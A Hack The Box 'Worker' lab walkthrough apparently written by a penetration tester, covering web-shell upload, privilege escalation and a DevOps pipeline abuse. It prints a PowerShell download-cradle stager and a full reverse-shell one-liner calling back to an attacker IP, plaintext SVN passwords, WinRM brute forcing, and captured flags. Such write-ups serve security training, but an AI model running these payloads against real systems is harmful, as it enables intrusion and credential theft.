

My test branches were deleted multiple times before I figured out the rhythm of the portal and how to do everything.



Tried to access my web shell, but it said it wasn't there...



Next I merged my test branch into the master



After a lot of trial and error, I was able to upload my webshell, and tried to run a reverse shell script from my attack machine.

```text
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.98:8909/revShell.ps1')"
```

Put this command into the webshell input as a stager to get my reverse shell powershell script from my waiting python http server

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ python3 -m http.server 8909
Serving HTTP on 0.0.0.0 port 8909 (http://0.0.0.0:8909/) ...
10.10.10.203 - - [12/Dec/2020 17:35:03] "GET /revShell.ps1 HTTP/1.1" 200 -
```

got connection to my waiting webserver which hosted a reverse shell ps1 script

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.15.98",8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

My PowerShell script consisted of a reverse shell one-liner found on [https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3\#gistcomment-3391254](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#gistcomment-3391254)

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ script                                                                                          1 ⨯
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 50339
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

PS C:\windows\system32\inetsrv>
```

I was able to get a reverse shell after uploading and running my PowerShell script!

I was logged in as the service account `iis apppool\defaultapppool`.  SeImpersonatePrivilege sounded interesting

## Road to User

### Further enumeration

```text
PS C:\windows\system32\inetsrv> net user

User accounts for \\

-------------------------------------------------------------------------------
aaralf                   abrall                   aceals                   
adaama                   Administrator            aidang                   
ainann                   alaann                   aleapp                   
alearb                   alearm                   aliart                   
aliaru                   alkash                   alpast                   
alyath                   alyath1                  amaauc                   
amaave                   amaayr                   ancbal                   
andbal                   andbal1                  andogi                   
angbal                   angban                   aniban                   
annbar                   annbar1                  antbar                   
aribar                   aribar1                  aribar2                  
armbar                   ashbea                   ashbea1                  
ashbec                   audbec                   audbed                   
aurbee                   autbel                   baibel                   
baiben                   beaber                   becbet                   
belbev                   benbev                   bevbig                   
biabil                   blabin                   brabin                   
brabir                   brabir1                  brebla                   
brebla1                  bribla                   briblo                   
bribog                   brobol                   brobol1                  
brobon                   cadbos                   caibou                   
calbou                   calboy                   calbra                   
cambra                   cambra1                  carbre                   
carbre1                  carbre2                  carbri                   
carbri1                  carbri2                  carbri3                  
carbri4                  carbro                   casbro                   
casbro1                  casbro2                  catbro                   
ceabro                   chabro                   chabry                   
chabuc                   chebuc                   chebuc1                  
chebuc2                  chlbud                   chrbun                   
chrbur                   chrbur1                  ciebur                   
clabur                   codbur                   colbur                   
colbur1                  conbur                   conbus                   
corbut                   coubux                   coucad                   
daical                   dakcal                   dakcar                   
damcar                   dancar                   dancaw                   
dancax                   darcay                   darcha                   
davcha                   dawcha                   DefaultAccount           
descha                   descha1                  devche                   
devche1                  domche                   dreche                   
drechi                   drechi1                  dulchu                   
duscla                   dylcla                   eglcla                   
elacle                   elicli                   elicli1                  
eloclu                   emecob                   emecob1                  
emicoc                   emlcoc                   emlcof                   
emmcog                   ericol                   ericol1                  
ericol2                  estcol                   ethcol                   
evacol                   fabcon                   faicon                   
fracon                   gabcoo                   gabcor                   
garcor                   gavcor                   gercor                   
gidcot                   gilcou                   giocov                   
glecra                   gracra                   gracra1                  
Guest                    guycro                   hancro                   
hancro1                  harcul                   haycum                   
haycun                   heacup                   heldag                   
herdal                   holdal                   hondan                   
hopdar                   iandav                   indde                    
iridea                   isaden                   isader                   
jacdev                   jacdev1                  jaddig                   
jaidin                   jamd'o                   jamdol                   
jandol                   jandor                   jardud                   
jasdum                   jasdun                   jaydun                   
jazdun                   jendun                   jerdup                   
jesdur                   jesdur1                  jesdur2                  
jesdut                   joddyk                   jodeas                   
johebe                   johock                   jonedg                   
jonelp                   jonely                   josemm                   
josesh                   joseto                   judeur                   
juleve                   jusewe                   kadfai                   
kalfal                   karfal                   kasfan                   
katfar                   katfay                   katfel                   
katfer                   kayfif                   keafif                   
keafil                   keefla                   keifle                   
keifli                   kelfoo                   kelfor                   
kelfor1                  kelfos                   kenfot                   
kenfot1                  kenfot2                  keofre                   
kerfro                   kerful                   khaful                   
kiogan                   kirgar                   kirgar1                  
kodgar                   kylgas                   lacgav                   
langet                   langih                   laugil                   
laugir                   lavgir                   leigla                   
leigle                   leigli                   lesglo                   
lesgoa                   levgor                   liagou                   
liagra                   lingra                   lingre                   
lyngri                   machad                   machai                   
madhal                   madhal1                  maehal                   
makhal                   makham                   makham1                  
malham                   malhan                   malhan1                  
marhar                   marhar1                  mathar                   
mauhar                   mayhar                   meghar                   
melhas                   melhas1                  michat                   
michat1                  mikhat                   mirhat                   
morhav                   morhay                   nadhed                   
naohed                   nathel                   nathen                   
nather                   nather1                  neihey                   
nichin                   nichin1                  noahip                   
nuahip                   oakhol                   o'bhol                   
owehol                   paihol                   parhol                   
parhol1                  pathop                   pauhor                   
payhos                   perhou                   peyhou                   
phihou                   quehub                   quihud                   
rachul                   raehun                   ramhun                   
ranhut                   rebhyd                   reeinc                   
reeing                   reiing                   renipr                   
restorer                 rhiire                   riairv                   
ricisa                   robish                   robisl                   
robive                   ronkay                   rubkei                   
rupkel                   ryakel                   sabken                   
samken                   sapket                   sarkil                   
sarkil1                  scakin                   scokin                   
seakin                   seckir                   shakir                   
shakir1                  shakir2                  shekno                   
shikyl                   sielac                   skylan                   
skylan1                  slolay                   slolec                   
solleg                   soplel                   stelev                   
sutlew                   tallew                   tamley                   
tanlin                   tanlin1                  taylin                   
taylin1                  taylin2                  teslip                   
teslis                   theliv                   tholon                   
timlud                   timman                   todman                   
tremar                   tremas                   tremay                   
trimay                   trimea                   trimed                   
tylmer                   vanmey                   vanmid                   
vanmid1                  vanmil                   waymor                   
WDAGUtilityAccount       vedmil                   vermil                   
wesmos                   wesmox                   whimun                   
whimun1                  whinai                   wianan                   
vicmil                   vicmof                   vicmon                   
wilnee                   wilnew                   vinmon                   
virmor                   wyanis                   xavnog                   
xennor                   xzynor                   zacnor                   
zacnor1                  zagnor                   zeonor                   
zitnot                   zoeoak                   
The command completed with one or more errors.
```

net user showed a very long list of usernames

```text
PS C:\windows\system32\inetsrv> ls \users


    Directory: C:\users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       2020-03-28     14:59                .NET v4.5                                                             
d-----       2020-03-28     14:59                .NET v4.5 Classic                                                     
d-----       2020-08-18     00:33                Administrator                                                         
d-r---       2020-03-28     14:01                Public                                                                
d-----       2020-07-22     01:11                restorer                                                              
d-----       2020-07-08     19:22                robisl
```

however there were only three user folder: `robisl`, `restorer`, and `Administrator`

[https://www.thewindowsclub.com/list-drives-using-command-prompt-powershell-windows](https://www.thewindowsclub.com/list-drives-using-command-prompt-powershell-windows)

```text
PS C:\users\restorer> get-psdrive -psprovider filesystem

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
C                  19,66          9,74 FileSystem    C:\                                                 users\restorer
W                   2,52         17,48 FileSystem    W:\
```

There was a second logical disk attached to the machine

```text
PS W:\> ls 


    Directory: W:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       2020-06-16     18:59                agents                                                                
d-----       2020-03-28     14:57                AzureDevOpsData                                                       
d-----       2020-04-03     11:31                sites                                                                 
d-----       2020-06-20     16:04                svnrepos
```

It looked like this is where the svn repos were stored

```text
PS W:\> tree sites
Folder PATH listing for volume Work
Volume serial number is E82A-AEA8
W:\SITES
????alpha.worker.htb
?   ????assets
?   ?   ????css
?   ?   ?   ????images
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
????cartoon.worker.htb
?   ????css
?   ?   ????ie
?   ?   ????images
?   ????fonts
?   ????images
?   ????js
????dimension.worker.htb
?   ????assets
?   ?   ????css
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????base
?   ?   ?   ????components
?   ?   ?   ????layout
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
????lens.worker.htb
?   ????assets
?   ?   ????css
?   ?   ?   ????images
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????base
?   ?   ?   ????components
?   ?   ?   ????layout
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
?       ????fulls
?       ????thumbs
????solid-state.worker.htb
?   ????assets
?   ?   ????css
?   ?   ?   ????images
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????base
?   ?   ?   ????components
?   ?   ?   ????layout
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
????spectral.worker.htb
?   ????assets
?   ?   ????css
?   ?   ?   ????images
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
????story.worker.htb
?   ????assets
?   ?   ????css
?   ?   ????js
?   ?   ????sass
?   ?   ?   ????base
?   ?   ?   ????components
?   ?   ?   ????layout
?   ?   ?   ????libs
?   ?   ????webfonts
?   ????images
?       ????gallery
?           ????fulls
?           ????thumbs
????twenty.worker.htb
    ????assets
    ?   ????css
    ?   ?   ????images
    ?   ????js
    ?   ????sass
    ?   ?   ????libs
    ?   ????webfonts
    ????images
```

I found the data for the websites in the `sites` folder,

```text
PS W:\> tree /F svnrepos
Folder PATH listing for volume Work
Volume serial number is E82A-AEA8
W:\SVNREPOS
????www
    ?   format
    ?   README.txt
    ?   
    ????conf
    ?       authz
    ?       hooks-env.tmpl
    ?       passwd
    ?       svnserve.conf
    ?       
    ????db
    ?   ?   current
    ?   ?   format
    ?   ?   fs-type
    ?   ?   fsfs.conf
    ?   ?   min-unpacked-rev
    ?   ?   rep-cache.db
    ?   ?   rep-cache.db-journal
    ?   ?   txn-current
    ?   ?   txn-current-lock
    ?   ?   uuid
    ?   ?   write-lock
    ?   ?   
    ?   ????revprops
    ?   ?   ????0
    ?   ?           0
    ?   ?           1
    ?   ?           2
    ?   ?           3
    ?   ?           4
    ?   ?           5
    ?   ?           
    ?   ????revs
    ?   ?   ????0
    ?   ?           0
    ?   ?           1
    ?   ?           2
    ?   ?           3
    ?   ?           4
    ?   ?           5
    ?   ?           
    ?   ????transactions
    ?   ????txn-protorevs
    ????hooks
    ?       post-commit.tmpl
    ?       post-lock.tmpl
    ?       post-revprop-change.tmpl
    ?       post-unlock.tmpl
    ?       pre-commit.tmpl
    ?       pre-lock.tmpl
    ?       pre-revprop-change.tmpl
    ?       pre-unlock.tmpl
    ?       start-commit.tmpl
    ?       
    ????locks
            db-logs.lock
            db.lock
```

That `passwd` file in `W:\svnrepos\www\conf\` looked interesting

### Finding user creds

```text
PS W:\svnrepos\www\conf> cat passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

In the folder `W:\svnrepos\www\conf` there was a file `passwd` that contained a list of usernames and passwords. This looked like a good time to brute force WinRM

### Port 5985 - WinRM

[https://github.com/mchoji/winrm-brute](https://github.com/mchoji/winrm-brute)

used `winrm-brute` to cycle through the list of usernames and passwords

```text
[SUCCESS] user: robisl password: wolves11
```

Retrieved the password for one of the users `robisl`

```text
┌──(zweilos㉿kali)-[~/htb/worker/winrm-brute]
└─$ evil-winrm -u robisl -p wolves11 -i 10.10.10.203                                      

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
worker\robisl S-1-5-21-3082756831-2119193761-3468718151-1330


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes
====================================== ================ ============================================== ==================================================
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
WORKER\Production                      Alias            S-1-5-21-3082756831-2119193761-3468718151-1018 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Using `evil-winrm` I was able to login with the password specified for `robisl`

### User.txt

```text
*Evil-WinRM* PS C:\Users\robisl\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\robisl\Desktop> ls


    Directory: C:\Users\robisl\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/12/2020  10:16 PM             34 user.txt


*Evil-WinRM* PS C:\Users\robisl\Desktop> cat user.txt
6266c82c4a400539708519fd31eb2a34
```

On the user's desktop I found the `user.txt` flag

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `robisl`

After searching high and low and enumerating as much as I could, I didn't find anything useful.


I tried to switch users to `robisl` in the `devops` portal.


I tried switching users in the `devops` page I had open, but received an error message saying that this user did not have the permissions needed to view project-level information.


 I decided to try `robisl`'s credentials on a fresh `devops` page after closing it and clearing my cache, and was happy to see that I was logged in to a different project.

* [https://azure.microsoft.com/en-us/services/devops/](https://azure.microsoft.com/en-us/services/devops/)
* [https://docs.microsoft.com/en-us/azure/devops/pipelines/policies/permissions?view=azure-devops](https://docs.microsoft.com/en-us/azure/devops/pipelines/policies/permissions?view=azure-devops)

> Azure Pipelines provides a quick, easy, and safe way to automate building your projects and making them available to users.


This sounds like a good way to try to get code execution...I wonder if there is a way to run it in the context of `Administrator`?  I put some code in the `azure-pipelines.yml` that I hoped would execute and download my reverse shell script.


Unfortunately this did not work.  After doing even more reading, I found that I had to assign an agent from the pool to build the project.


Agetnt pool selection


Assign the job to the agent


Save and run


The build job was started


The job built successfully, but my script failed to run. I checked my syntax on everything and made sure I did all of the proper steps and tried again.


Unfortunately I don't remember exactly what I had done wrong, or how I fixed it \(I need to take more detailed notes, I guess!\).  However, after a lot of trial and error, I was able to get the project to build and also execute my script.  No I hoped that it would actually execute the PowerShell script and send me a reverse shell!

New Pipeline - Azure Repos Git - PartsUnlimited - Starter Pipeline

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ python3 -m http.server 8909
Serving HTTP on 0.0.0.0 port 8909 (http://0.0.0.0:8909/) ...
10.10.10.203 - - [12/Dec/2020 20:32:32] "GET /revShell.ps1 HTTP/1.1" 200 -
```

My waiting python HTTP server got a connection request, and I could see that it sent the script.

### Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099                                                                                   1 ⨯
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 51544

PS W:\agents\agent11\_work\8\s> whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes                                        
====================================== ================ ============================================== ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                     
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_G5f35d        Alias            S-1-5-21-3082756831-2119193761-3468718151-1419 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_G81207        Alias            S-1-5-21-3082756831-2119193761-3468718151-1415 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_G8be50        Alias            S-1-5-21-3082756831-2119193761-3468718151-1416 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_G8f9d6        Alias            S-1-5-21-3082756831-2119193761-3468718151-1418 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_G93a88        Alias            S-1-5-21-3082756831-2119193761-3468718151-1420 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_Gb286d        Alias            S-1-5-21-3082756831-2119193761-3468718151-1414 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_Gb4ad8        Alias            S-1-5-21-3082756831-2119193761-3468718151-1413 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_Ge7dab        Alias            S-1-5-21-3082756831-2119193761-3468718151-1412 Mandatory group, Enabled by default, Enabled group
WORKER\VSTS_AgentService_Ged5e3        Alias            S-1-5-21-3082756831-2119193761-3468718151-1417 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                 Alias            S-1-5-32-544                                   Enabled by default, Enabled group, Group owner    


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

PS W:\agents\agent11\_work\8\s>
```

I was happy to see that my script worked, and I got a reverse shell as `NT Authority/System`!

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099                                         
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 51686
type C:\Administrator\Desktop\root.txt
PS W:\agents\agent11\_work\10\s> cd C:\
PS C:\> cd \users\Administrator\Desktop
PS C:\users\Administrator\Desktop> type root.txt
8af884b2e94242799a6b6dbb19eb9add
```

I unfortunately had to recreate my session as some automated process deleted it after a short time, but after so much effort I was able to retrieve my proof!



Thanks to [`ekenas`](https://app.hackthebox.eu/users/222808) for... \[something interesting or useful about this machine.\]

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

